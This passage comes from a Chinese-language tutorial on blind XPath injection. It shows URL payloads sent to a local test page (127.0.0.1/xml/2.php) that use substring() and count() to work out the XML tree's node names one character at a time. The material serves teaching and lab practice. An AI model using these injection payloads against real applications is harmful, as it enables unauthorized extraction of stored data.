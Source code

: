 [![](assets/1698897471-7cc7a52771325a55c740779b3adf82b3.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202151309-31f7c740-14d3-1.jpg)  
有返回结果证明存在一个根节点。  
利用 substring 分割根节点的每个字符，猜解第一级节点：

```bash
http://127.0.0.1/xml/2.php?name=' or substring(name(/*[position() = 1]),1,1)='r' or '1'='2
http://127.0.0.1/xml/2.php?name=' or substring(name(/*[position() = 1]),2,1)='o' or '1'='2
```

...  
最终结果：root  
*2.盲注 root 的下一级节点*  
判断 root 的下一级节点数：

```bash
http://127.0.0.1/xml/2.php?name=' or count(/root/*) = 1 or '1' = '2
```

有返回结果证明存在一个 root 的下一级节点。  
[![](assets/1698897471-24a787444346a201208c84132afed987.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202151335-418afc54-14d3-1.jpg)  
猜解 root 的下一级节点：

```bash
http://127.0.0.1/xml/2.php?name=' or substring(name(/root/*[position() = 1]),1,1)='u' or '1'='2
http://127.0.0.1/xml/2.php?name=' or substring(name(/root/*[position() = 1]),2,1)='s' or '1'='2
```
